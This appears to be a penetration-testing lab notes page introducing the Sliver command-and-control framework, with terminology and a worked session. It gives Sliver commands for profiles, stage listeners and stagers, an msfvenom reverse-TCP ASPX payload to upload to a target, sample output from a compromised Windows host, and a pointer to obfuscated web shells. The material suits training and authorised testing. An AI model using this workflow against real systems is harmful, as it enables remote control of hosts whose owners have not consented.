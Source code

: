 ```yaml
---
description: A command and control (C2) server is software tasked to execute commands.
---
```


# Intro C2 Sliver

### <mark style="color:yellow;">Terminology</mark>

* **Implants**: Binaires/Executables used to preserve entry onto targat, to establish communications between attacker and compromised system.
* **Beacons**: Is the process of the communicating from target to c2 server periodically.
* **Stagers**: Stager is a way loading code onto remote machine, used to load different code.
* **Armory**: A library of precompiled .NET binaries that can be executed on the victim machine

### <mark style="color:yellow;">Session</mark>

Creating a new profile

```sh
profiles new --http 10.10.14.120:8888 --format shellcode zen
```

Create a stage listener

```sh
stage-listener --url tcp://10.10.14.120:4443 --profile zen
```

Start HTTP server

```sh
http -L 10.10.14.120 -l 8888
```

Generate stager

```sh
generate stager --lhost 10.10.14.120 --lport 4443 --format csharp --save staged.txt
```

Generate a msfvenom aspx payload

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.120 LPORT=4443 -f aspx > sliver.aspx
```

In the .aspx file replace the shellcode start from new byte. After uploading and opening .aspx file you get a session back.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Once getting sessions back type use and id

```sh
# Show sessions
[server] sliver > sessions

 ID         Name            Transport   Remote Address         Hostname   Username   Operating System   Locale   Last Message                                  Health  
========== =============== =========== ====================== ========== ========== ================== ======== ============================================= =========
 0fb55977   STANDARD_GOWN   http(s)     10.129.135.124:49702   web01      <err>      windows/amd64      en-US    Tue Jan 21 12:35:56 EST 2025 (2s ago)         [ALIVE] 
 520436a4   STANDARD_GOWN   http(s)     10.129.135.124:49696   web01      <err>      windows/amd64      en-US    Tue Jan 21 12:35:56 EST 2025 (2s ago)         [ALIVE] 

# Use session
[server] sliver > use 0fb55977
[*] Active session STANDARD_GOWN (0fb55977-1d1a-49b6-a38c-3050062a3f2b)
  
# Get info 
[server] sliver (STANDARD_GOWN) > info

        Session ID: 0fb55977-1d1a-49b6-a38c-3050062a3f2b
              Name: STANDARD_GOWN
          Hostname: web01
              UUID: 8e791442-8f32-0734-2206-371cf25d6bb6
          Username: <err>
               UID: <err>
               GID: <err>
               PID: 2668
                OS: windows
           Version: Server 2016 build 17763 x86_64
            Locale: en-US
              Arch: amd64
         Active C2: https://10.10.14.120:8888
    Remote Address: 10.129.135.124:49702
         Proxy URL: 
Reconnect Interval: 1m0s
     First Contact: Tue Jan 21 12:34:21 EST 2025 (2m8s ago)
      Last Checkin: Tue Jan 21 12:36:27 EST 2025 (2s ago)
```

{% hint style="info" %}
Use [SharpyShell](https://github.com/antonioCoco/SharPyShell) to upload obfuscated web shells.
{% endhint %}
